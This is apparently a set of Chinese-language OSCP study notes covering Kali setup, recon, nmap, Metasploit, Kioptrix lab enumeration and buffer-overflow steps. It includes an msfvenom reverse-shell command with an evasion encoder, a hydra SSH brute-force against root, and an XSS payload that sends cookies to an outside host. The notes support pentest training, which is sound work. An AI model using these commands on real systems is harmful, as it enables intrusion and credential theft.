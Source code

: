 # OSCP笔记  

## 第一件事情：改root密码  
root@kali:/# passwd  


## 常用命令  
pwd, man, ls, cd, mkdir, rmdir, cp, mv, locate, adduser, su, sudo, echo, cat, vim, chmod, ifconfig, ping  


## 常用服务  
apache2, ssh, postgresql

kali> service apache2 start  
kali> systemctl enable apache2  


## 信息收集  
Google (inurl:cnn.com, filetype:pdf, intext, .etc)  
Exploit-DB / Google Hacking DB  
shodan  
WHOIS  
Netcraft  
theharvester  


## 扫描  
TCP vs UDP  

### Nmap  
> 选项：-vv详细，-Pn不论是否存活一律扫描，-A综合扫描，-sS SYN扫描，-sU UDP扫描，-T4扫描速度（1慢，5快），-p指定端口，-p-所有端口，-oN输出格式，--script使用脚本扫描  

kali> nmap -vv -sS -Pn -A -p 1-65535 -T4 -oN /root/tcpscan.txt 192.168.X.X/24              # TCP SYN扫描  
kali> nmap -vv -sU -Pn -A -top-ports 200 -T4 -oN /root/udpscan.txt 192.168.X.X/24          # UDP扫描  
kali> nmap -vv -p 137 --script=all 192.168.X.X                                    # 对137端口跑脚本  

### Nessus  
kali> dpkg -i <Nessus安装包\>.deb     # 安装  
kali> /etc/init.d/nessusd start     # 启动  

### Metasploit  
kali> msfconsole     # 启动msf  
msf> search portscan        # 查找模块  
msf> use auxilary/...       # 使用  
msf> show options           # 查看模块信息  
msf> set ports 1-65535      # 设置参数  
msf> set rhosts 192.168.15.2  
msf> set threads 10  
msf> exploit                # 开始  



## Kioptrix Level 1  

### SSH信息枚举（SSH版本）  
查看版本，然后去`searchsploit`或exploit-db找漏洞  

### HTTP信息枚举（Web Server版本，目录，文件等）  
1. 查看网页源码  
2. 查看HTTP通信流量  
3. 目录扫描（dirbuster, nikto，御剑）  

字典：github: dirbuster wordlist  

### SMB信息枚举（OS版本，SMB版本，$IPC等）  
kali> enum4linux  
msf> use auxiliary/scanner/smb/smb_version  
kali> nbtscan  
kali> smbclient  

### DNS枚举  
kali> host [-t [ns|mx]] zonetransfer.me  
kali> host -l <url> <ns>     # DNS Zone Transfer  
kali> dnsrecon  
kali> dnsenum  



## 栈溢出（Buffer Overflow）

        |--------|      |---------|    
        |  Text  |      |   ESP   |
        |--------|      |---------|
        |  Data  |      |  Buffer | 
        |--------|      |    ↓    |
        |  Heap  |      |         |
        |   ↓    |   /  |---------|
        |        |  /   |   EBP   |         
        |--------| /    |---------|
        |        |      |   EIP   |
        |   ↑    |      |---------|
        | Stack  |      |   arg2  |
        |--------| \    |---------|
        | Kernel |  \   |   arg1  |
        |--------|   \  |---------|

1. Fuzzing (and finding badchars)  
2. Finding the offset  
3. Overwriting the EIP  
4. exploit with shellcode generated by `msfvenom`  

生成shellcode  
kali> msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=4444 EXITFUNC=thread -f python/c/exe -a x86 --platform windows -e x86/shikata_ga_nai -x ... -o a.exe  

检查恶意程序的网站  
https://www.virustotal.com/  


### Client Side Attacks（客户端攻击）  

通过PDF、浏览器、Java Applet漏洞攻击，结合社工工具setools  




## Online Password Attacks  
  
> The last thing to try  
  
暴力破解SSH  
kali> hydra -v -l root -P /usr/share/wordlists/rockyou.txt X.X.X.X ssh -t 4s  



## Web Attacks

### XSS
> 窃取cookie
```js
<script>location.href='http://192.168.1.100/index.php?test='+document.cookie;<script/>
```


